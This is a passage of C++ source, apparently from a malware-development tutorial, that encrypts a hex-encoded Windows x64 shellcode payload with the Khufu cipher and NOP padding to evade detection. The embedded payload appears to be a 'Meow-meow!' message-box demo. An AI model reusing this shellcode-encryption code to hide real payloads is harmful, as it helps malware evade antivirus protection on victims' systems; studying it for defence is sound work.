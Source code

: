 ```cpp
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

int main() {
  khufu_generate_key();
  printf("generated key:\n");
  for (int i = 0; i < KEY_SIZE; i++) {
    printf("%02x", key[i]);
    if ((i + 1) % 8 == 0) {
      printf("\n"); // print a newline every 16 values
    } else {
      printf(" ");
    }
  }
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
```